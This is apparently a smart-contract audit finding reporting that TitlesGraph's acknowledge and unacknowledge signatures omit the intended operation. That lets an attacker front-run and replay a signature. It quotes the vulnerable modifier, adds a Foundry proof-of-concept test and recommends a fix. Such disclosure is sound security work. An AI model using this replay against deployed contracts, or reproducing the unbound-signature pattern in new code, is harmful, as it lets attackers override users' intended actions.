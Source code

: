 Attractive Lavender Yeti

high

# The `TitlesGraph` contract is vulnerable to front-run attack

## Summary

The creator of the `to` Node can utilize an ECDSA signature to either acknowledge or unacknowledge an Edge. However, since the signature does not specify the intended operation (acknowledge or unacknowledge), a malicious user could front-run the *acknowledgment* function and use the ECDSA signature to either *acknowledge* or *unacknowledge* the edge, depending on their intention. This directly compromises the functionality of the acknowledgment function.

## Vulnerability Detail

The ECDSA signature only contains information about the `edgeId` and `data`, without specifying the intended acknowledge or unacknowledge operation. A malicious user could front-run the related functions (`acknowledgeEdge` and `unacknowledgeEdge` with signature) to execute the opposite operation, thereby breaking the intended functionality.

```solidity
    /// @notice Modified to check the signature for a proxied acknowledgment.
    modifier checkSignature(bytes32 edgeId, bytes calldata data, bytes calldata signature) {
        bytes32 digest = _hashTypedData(keccak256(abi.encode(ACK_TYPEHASH, edgeId, data)));
        if (
            !edges[edgeId].to.creator.target.isValidSignatureNowCalldata(digest, signature)
                || _isUsed[keccak256(signature)]
        ) {
            revert Unauthorized();
        }
        _;
        _isUsed[keccak256(signature)] = true;
    }
```

### POC

This is a simple test case: the creator intends to unacknowledge the Edge, but the malicious user front-runs it and uses the signature to acknowledge the Edge instead.

```diff
diff --git a/wallflower-contract-v2/test/graph/TitlesGraph.t.sol b/wallflower-contract-v2/test/graph/TitlesGraph.t.sol
index aa1f29d..36a8f6a 100644
--- a/wallflower-contract-v2/test/graph/TitlesGraph.t.sol
+++ b/wallflower-contract-v2/test/graph/TitlesGraph.t.sol
@@ -166,7 +166,44 @@ contract TitlesGraphTest is Test {
         emit IEdgeManager.EdgeAcknowledged(edge, address(this), "");
         titlesGraph.acknowledgeEdge(edgeId, new bytes(0), signer.SRSLY());
     }
+    function test_frontRun_unacknowledgeEdge() public {
+        Mock1271Signer signer = new Mock1271Signer();
+        bytes memory jtmb = signer.JTMB();
+
+        Edge memory edge = Edge({
+            from: Node({
+                nodeType: NodeType.COLLECTION_ERC1155,
+                entity: Target({target: address(this), chainId: block.chainid}),
+                creator: Target({target: address(2), chainId: block.chainid}),
+                data: ""
+            }),
+            to: Node({
+                nodeType: NodeType.TOKEN_ERC1155,
+                entity: Target({target: address(3), chainId: block.chainid}),
+                creator: Target({target: address(signer), chainId: block.chainid}),
+                data: abi.encode(42)
+            }),
+            acknowledged: true,
+            data: ""
+        });
+
+        // Create the edge
+        titlesGraph.createEdge(edge.from, edge.to, "");
+        bytes32 edgeId = titlesGraph.getEdgeId(edge);
+        // Acknowledge it
+        vm.prank(edge.to.creator.target);
+        titlesGraph.acknowledgeEdge(edgeId, new bytes(0));
+
+        // The edge.to.creator wants to unacknowledge the edge
+        // But a malicious attacker(0x100) could front-run it and leverage this signature to acknowledge the edge again
+        vm.prank(address(0x100));
+        titlesGraph.acknowledgeEdge(edgeId, new bytes(0), jtmb);

+        // The unacknoledge will revert due to the signaure has been used
+        vm.expectRevert(Unauthorized.selector);
+        titlesGraph.unacknowledgeEdge(edgeId, new bytes(0), jtmb);
+
+    }
     function test_unacknowledgeEdge() public {
         Node memory from = Node({
             nodeType: NodeType.COLLECTION_ERC1155,
```

## Impact

The core functionality of the acknowledgment/unacknowledgment mechanism with ECDSA signatures is compromised.

## Code Snippet

https://github.com/sherlock-audit/2024-04-titles/blob/c9d16782a7d3c15c7a759f22c9e0552d5e777ed7/wallflower-contract-v2/src/graph/TitlesGraph.sol#L40-L50

## Tool used

Foundry

## Recommendation

Include the intended acknowledge operation in the signature.
